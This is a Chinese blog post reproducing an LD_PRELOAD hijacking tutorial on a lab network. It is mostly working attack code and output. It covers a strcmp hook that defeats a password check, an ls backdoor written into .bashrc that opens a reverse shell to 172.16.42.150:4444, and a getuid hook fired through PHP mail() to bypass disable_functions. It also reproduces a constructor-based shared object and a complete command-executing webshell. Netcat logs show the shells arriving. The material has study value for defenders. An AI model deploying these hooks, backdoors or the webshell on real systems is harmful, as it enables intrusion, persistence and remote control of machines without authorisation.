

> 身是菩提树，心如明镜台。时时勤拂拭，勿使惹尘埃。
>
> 菩提本无树，明镜亦非台。本来无一物，何处惹尘埃。

参考Mockingjay师傅的[文章](https://whoamianony.top/2021/10/22/Web%E5%AE%89%E5%85%A8/%E6%9C%89%E8%B6%A3%E7%9A%84%20LD_PRELOAD/)进行复现。

<!-- more -->

LD_PRELOAD 是 Linux 系统中的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。

## 1. 链接

程序的链接主要有以下三种：

- 静态链接：在程序运行之前先将各个目标模块以及所需要的库函数链接成一个完整的可执行程序，之后不再拆开。
- 装入时动态链接：源程序编译后所得到的一组目标模块，在装入内存时，边装入边链接。
- 运行时动态链接：原程序编译后得到的目标模块，在程序执行过程中需要用到时才对它进行链接

对于动态链接来说，需要一个动态链接库，其作用在于当动态库中的函数发生变化对于可执行程序来说时透明的，可执行程序无需重新编译，方便程序的发布/维护/更新。但是由于程序是在运行时动态加载，这就存在一个问题，假如程序动态加载的函数是恶意的，就有可能导致一些非预期的执行结果或者绕过某些安全设置。


## 2. LD_PRELOAD

LD_PRELOAD 是 Linux 系统中的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。


## 3. LD_PRELOAD Hook

由于 LD_PRELOAD 可以指定在程序运行前优先加载的动态链接库，那我们可以重写程序运行过程中所调用的函数并编译成动态链接库文件，然后通过指定 LD_PRELOAD 让程序优先加载的这个恶意的动态链接库，最后当程序再次运行时便会加载动态链接库中的恶意函数。具体的操作步骤如下：

1. 定义与目标函数完全一样的函数，包括名称、变量及类型、返回值及类型等。
2. 将包含替换函数的源码编译为动态链接库。
3. 通过命令 `export LD_PRELOAD="库文件路径"`，设置要优先替换动态链接库即可。
4. 替换结束，要还原函数调用关系，用命令`unset LD_PRELOAD` 解除

下面我们通过一个简单的实例进行演示：

passcheck.c

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
	char passwd[] = "password";
	if (argc < 2) {
		printf("usage: %s <given-password>\n", argv[0]);
		return 0;
	}
	if (!strcmp(passwd, argv[1])) {
		printf("\033[0;32;32mPassword Correct!\n\033[m");
		return 1;
	} else {
        printf("\033[0;32;31mPassword Wrong!\n\033[m");
        return 0;
    }
}
```

编写如上程序，如过密码等于passwd就打印Password Correct。如果密码错误就打印Password Wrong。

编译上述程序

```
gcc passcheck.c -o passcheck
```

执行

```
[root@vuln /tmp]# gcc passcheck.c -o passcheck
[root@vuln /tmp]# ./passcheck password
Password Correct!
[root@vuln /tmp]# ./passcheck a
Password Wrong!
[root@vuln /tmp]#
```

现在定义一个strcmp函数编译成.so文件，用LD_PRELOAD加载来劫持原有的strcmp函数

- hook_strcmp.c

```c
#include <stdlib.h>
#include <string.h>
int strcmp(const char *s1, const char *s2) {
    if (getenv("LD_PRELOAD") == NULL) {
    	return 0;
    }
    unsetenv("LD_PRELOAD");
	return 0;
}
```

编译

```
gcc -shared -fPIC hook_strcmp.c -o hook_strcmp.so
```

加载执行有三种方式：

1. 一次加载

   ```
   LD_PRELOAD=$PWD/hook_strcmp.so ./passcheck password
   ```

2. 当前终端有效

   ```
   export LD_PRELOAD=$PWD/hook_strcmp.so
   ```

3. 永久写入（一般不用这种方式）

   ```
   echo "./hook_strcmp.so" >> /etc/ld.so.preload
   ```

我们这里使用第一种方式

```
[root@vuln /tmp]# LD_PRELOAD=$PWD/hook_strcmp.so ./passcheck password
Password Correct!
[root@vuln /tmp]# LD_PRELOAD=$PWD/hook_strcmp.so ./passcheck a
Password Correct!
```

发现无论输入什么密码都是正确的。


## 4. 制作后门

当我们得知了一个系统命令所调用的库函数 后，我们可以重写指定的库函数进行劫持。这里我们以 `ls` 命令为例进行演示。

首先查看 `ls` 这一系统命令会调用哪些库函数：

```
readelf -Ws /usr/bin/ls
```

选择的是 strncmp 进行Hook

- hook_strncmp.c

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("id");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    // 这里函数的定义可以根据报错信息进行确定
    if (getenv("LD_PRELOAD") == NULL) {
    	return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```

编译

```
gcc -shared -fPIC hook_strncmp.c -o hook_strncmp.so
```

执行

```
[root@vuln /tmp]# export LD_PRELOAD=$PWD/hook_strncmp.so
[root@vuln /tmp]# ls
uid=0(root) gid=0(root) 组=0(root)
hook_strcmp.c  hook_strcmp.so  hook_strncmp.c  hook_strncmp.so  passcheck  passcheck.c
[root@vuln /tmp]#
```

利用这种思路，我们可以制作一个隐藏得 Linux 后门，比如当管理员执行 `ls` 命令时会反弹一个 Shell：

- hook_strncmp.c

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -c 'bash -i >& /dev/tcp/172.16.42.150/4444 0>&1'");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    // 这里函数的定义可以根据报错信息进行确定
    if (getenv("LD_PRELOAD") == NULL) {
    	return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```

编译：

```
gcc -shared -fPIC hook_strncmp.c -o hook_strncmp.so
```

然后在 `.bashrc` 中写入，我这里用的是zsh，所以写入了.zshrc：

```
export LD_PRELOAD=/tmp/hook_strncmp.so
```

执行ls成功收到了shell

```
[root@debian ~]# nc -lvvp 4444
listening on [any] 4444 ...
172.16.42.151: inverse host lookup failed: Unknown host
connect to [172.16.42.150] from (UNKNOWN) [172.16.42.151] 4124
```

这种方式，会影响系统运行，我在执行vim后就会卡顿。


## 5. 绕过 Disable_Functions

有四种绕过 disable_functions 的手法：第一种，攻击后端组件，寻找存在命令注入的、web 应用常用的后端组件，如，ImageMagick 的魔图漏洞、bash 的破壳漏洞；第二种，寻找未禁用的漏网函数，常见的执行命令的函数有 system()、exec()、shell_exec()、passthru()，偏僻的 popen()、proc_open()、pcntl_exec()，逐一尝试，或许有漏网之鱼；第三种，mod_cgi 模式，尝试修改 .htaccess，调整请求访问路由，绕过 php.ini 中的任何限制；第四种，利用环境变量 LD_PRELOAD 劫持系统函数，让外部程序加载恶意 *.so，达到执行系统命令的效果。

基于LD_PRELOAD 劫持系统函数这一思路，将突破 disable_functions 限制执行操作系统命令这一目标，大致分解成以下几个步骤：

>  找到启动新进程的php函数--->找到php函数调用的库函数--->用LD_PRELOAD劫持库函数的调用

### 5.1 启动新进程的php函数

找寻内部启动新进程的 PHP 函数。虽然 LD_PRELOAD 为我提供了劫持系统函数的能力，但前提是我得控制 php 启动外部程序才行（只要有进程启动行为即可，无所谓是谁）。常见的 system() 启动程序方式显然不行，否则就不存在突破 disable_functions 一事了。尝试一些可能启动进程的函数

- 尝试`Imagick()`

```
[root@vuln html]# touch image.php
[root@vuln html]# vim image.php
[root@vuln html]# cat image.php
<?php
	$img = new Imagick();
	$img -> newImage(500,300,'black', 'png')
?>
[root@vuln html]#  strace -f php image.php 2>&1 | grep -A2 -B2 execve
execve("/usr/bin/php", ["php", "image.php"], 0x7ffdce692b00 /* 28 vars */) = 0
brk(NULL)                               = 0x55ce347f1000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (没有那个文件或目录)

```

第一个 execve 是启动 PHP 解释器而已，必须找到第二个 execve，没有则说明并未启动新进程

- 尝试`mail()`

```php
<?php
    mail("a","b","","c","d");
?>
```

```
[root@vuln html]# strace -f php mail.php 2>&1 | grep -A2 -B2 execve
execve("/usr/bin/php", ["php", "mail.php"], 0x7ffcf2ce70f0 /* 28 vars */) = 0
brk(NULL)                               = 0x561cadfcf000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (没有那个文件或目录)
--
[pid 19699] set_robust_list(0x7f039d1d2e60, 24) = 0
[pid 19699] dup2(3, 0)                  = 0
[pid 19699] execve("/bin/sh", ["sh", "-c", "/usr/sbin/sendmail -t -i d"], 0x561cadfe0e70 /* 28 vars */) = 0
[pid 19699] brk(NULL)                   = 0x562b89290000
[pid 19699] access("/etc/ld.so.preload", R_OK) = -1 ENOENT (没有那个文件或目录)
--
[pid 19699] wait4(-1, strace: Process 19700 attached
 <unfinished ...>
[pid 19700] execve("/usr/sbin/sendmail", ["/usr/sbin/sendmail", "-t", "-i", "d"], 0x562b89290908 /* 28 vars */) = 0
[pid 19700] access("/etc/suid-debug", F_OK) = -1 ENOENT (没有那个文件或目录)
[pid 19700] brk(NULL)                   = 0x560c224de000
```

mail() 内部启动了 /usr/sbin/sendmail进程，至此我们已经发现了启动新进程的php函数。


### 5.2 找到php函数调用的库函数

`readelf -Ws /usr/sbin/sendmail`查看调用哪些库函数

择劫持那些无参数且常用的系统函数，getuid() 就适合

```
[root@vuln html]# readelf -Ws /usr/sbin/sendmail | grep getuid
    64: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND getuid@GLIBC_2.2.5 (2)
You have new mail.
```

查看用法

```
man 2 getuid
```

```
SYNOPSIS
       #include <unistd.h>
       #include <sys/types.h>

       uid_t getuid(void);
       uid_t geteuid(void);
```

劫持代码

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -c 'bash -i >& /dev/tcp/172.16.42.150/4444 0>&1'");
}

uid_t getuid() {
    if (getenv("LD_PRELOAD") == NULL) {
    	return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```


### 5.3 用LD_PRELOAD劫持库函数的调用

执行命令编译生成 hook_getuid.so：

```
[root@vuln html]# touch hook_getuid.so
[root@vuln html]# rm hook_getuid.so
[root@vuln html]# touch hook_getuid.c
[root@vuln html]# vim hook_getuid.c
[root@vuln html]# gcc -shared -fPIC hook_getuid.c -o hook_getuid.so
```

然后在 PHP 环境下劫持系统函数 getuid 就行了，代码如下：

```php
<?php
    putenv("LD_PRELOAD=/var/www/html/hook_getuid.so");
    mail("a","b","","c","d");
?>
```

访问触发

```
[shadowflow@ShadowOS /tmp]$ curl http://172.16.42.151/mail.php
```

收到shell

```
[root@debian ~]# nc -lvvp 4444
listening on [any] 4444 ...
172.16.42.151: inverse host lookup failed: Unknown host
connect to [172.16.42.150] from (UNKNOWN) [172.16.42.151] 41994
bash: cannot set terminal process group (16416): Inappropriate ioctl for device
bash: no job control in this shell
www-data@vuln:/var/www/html$
```


**error_log()**

`error_log` 与 `mail` 函数的原理一样，都会启动一个新的系统进程 `/usr/sbin/sendmail`：

```
<?php
putenv("LD_PRELOAD=/var/tmp/hook_getuid.so");    // 注意这里的目录要有访问权限
error_log("", 1, "", "");
?>
```

不再赘述。


### 5.4 利用 LD_PRELOAD 劫持系统新进程来绕过

在真实环境中，存在两方面问题：一是，某些环境中，web 禁止启用 senmail、甚至系统上根本未安装 sendmail，也就谈不上劫持 getuid()，通常的 www-data 权限又不可能去更改 php.ini 配置、去安装 sendmail 软件；二是，即便目标可以启用 sendmail，由于未将主机名（hostname 输出）添加进 hosts 中，导致每次运行 sendmail 都要耗时半分钟等待域名解析超时返回，www-data 也无法将主机名加入 hosts（如，127.0.0.1   lamp、lamp.、lamp.com）。基于这两个原因，我不得不放弃劫持函数 getuid()，必须找个更普适的方法。回到 LD_PRELOAD 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，那我就完全可以不依赖 sendmail 了。这种场景与 C++ 的构造函数简直神似！几经搜索后了解到，GCC 有个 C 语言扩展修饰符 __attribute__((constructor))，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 __attribute__((constructor)) 修饰的函数。

如下，我们可以直接劫持系统命令 `ls`：

- hook_ls.c

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    unsetenv("LD_PRELOAD");
    system("id");
}
```

编译并测试 `ls` 命令：

```
[root@vuln /tmp]# touch hook_ls.c
[root@vuln /tmp]# vim hook_ls.c
[root@vuln /tmp]# gcc -shared -fPIC hook_ls.c -o hook_ls.so
[root@vuln /tmp]# LD_PRELOAD=/tmp/hook_ls.so ls
uid=0(root) gid=0(root) 组=0(root)
hook_ls.c   hook_strcmp.c   hook_strncmp.c   passcheck    systemd-private-a83e169502574670adf290d48faa3b1e-apache2.service-0ngAZl
hook_ls.so  hook_strcmp.so  hook_strncmp.so  passcheck.c
```

如上图，成功劫持，并且不光劫持了 `ls`，只要启动了进程便会进行劫持。

[yangyangwithgnu](https://github.com/yangyangwithgnu) 师傅根据这个思路创建了 [bypass_disablefunc_via_LD_PRELOAD ](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)这个项目，项目中有这几个关键文件：

- bypass_disablefunc.php：一个用来执行命令的 webshell。
- bypass_disablefunc_x64.so 或 bypass_disablefunc_x86.so：用来加载并执行命令的动态链接库文件，分为 64 位的和 32 位的。
- bypass_disablefunc.c：用来编译生成上面的动态链接库文件。

bypass_disablefunc.c的源码如下：

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```

bypass_disablefunc.php 的源码如下:

```php+HTML
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";

    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";

    putenv("EVIL_CMDLINE=" . $evil_cmdline);    // 通过环境变量 EVIL_CMDLINE 向 bypass_disablefunc_x64.so 传递具体执行的命令行信息

    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);

    mail("", "", "", "");
	// error_log("", 1, "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 

    unlink($out_path);
?>
```

对于 bypass_disablefunc.php，权限上传到 Web 目录的直接访问，无权限的话可以传到 tmp 目录后用include 等函数来包含，并且需要用 GET 方法提供三个参数：

且需要用 GET 方法提供三个参数：

- cmd 参数：待执行的系统命令，如 id 命令。
- outpath 参数：保存命令执行输出结果的文件路径（如 /tmp/xx），便于在页面上显示，另外该参数，你应注意 web 是否有读写权限、web 是否可跨目录访问、文件将被覆盖和删除等几点。
- sopath 参数：指定劫持系统函数的共享对象的绝对路径（如 /var/www/bypass_disablefunc_x64.so），另外关于该参数，你应注意 web 是否可跨目录访问到它。

可以看到，bypass_disablefunc.php 的源码也使用了 mail() 函数，但是无需安装 sendmail，只需要 PHP 支持 putenv()、mail() 即可。如果 mail() 函数也被禁用了，那我们可以在寻找其他可以启动新进程的函数即可，比如 error_log() 等。

使用时，我们想办法将 bypass_disablefunc.php 和 bypass_disablefunc_x64.so 传到目标**有权限**的目录中：

```
[root@vuln html]# pwd
/var/www/html
[root@vuln html]# ls
bypass_disablefunc.php  bypass_disablefunc_x64.so
[root@vuln html]#
```

然后将bypass_disablefunc.php包含进来并使用GET方法提供所需的三个参数：

浏览器访问:

```
172.16.42.151/bypass_disablefunc.php?cmd=ls&outpath=/var/tmp/xxxx&sopath=/var/www/html/bypass_disablefunc_x64.so
```




## 参考

https://www.freebuf.com/articles/web/192052.html

https://whoamianony.top/2021/10/22/Web%E5%AE%89%E5%85%A8/%E6%9C%89%E8%B6%A3%E7%9A%84%20LD_PRELOAD/
